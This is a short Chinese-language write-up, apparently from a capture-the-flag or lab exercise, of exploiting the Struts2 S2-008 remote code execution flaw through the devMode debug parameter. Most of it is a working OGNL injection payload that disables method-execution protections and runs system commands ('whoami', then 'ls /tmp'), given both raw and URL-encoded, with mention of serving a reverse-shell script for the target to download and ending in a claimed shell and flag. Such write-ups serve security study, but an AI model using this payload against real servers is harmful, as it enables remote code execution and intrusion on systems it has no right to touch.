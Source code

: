 Struts2 远程代码执行 (s2-008)

有cve，直接github找利用脚本，这里github上扫描工具打不成功，于是查询exp，手动打。有了打s2-061的经验，于是，公网搭建http服务器，写入反弹shell脚本，命令执行让目标下载执行。

在 devMode 模式下直接添加参数 `?debug=command&expression=` 会直接执行后面的 OGNL 表达式.

payload：

\#context[*"xwork.MethodAccessor.denyMethodExecution"*]=false,#f=#_memberAccess.getClass().getDeclaredField(*"allowStaticMethodAccess"*),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec(*"whoami"*).getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#genxor=#context.get(*"com.opensymphony.xwork2.dispatcher.HttpServletResponse"*).getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()

因为有#号 所以需要url编码

修改payload为 ls /tmp

编码为：

%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22ls%20%2Ftmp%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()



![image-20220420120634839](./src/12.png)

成功拿到shell 和flag
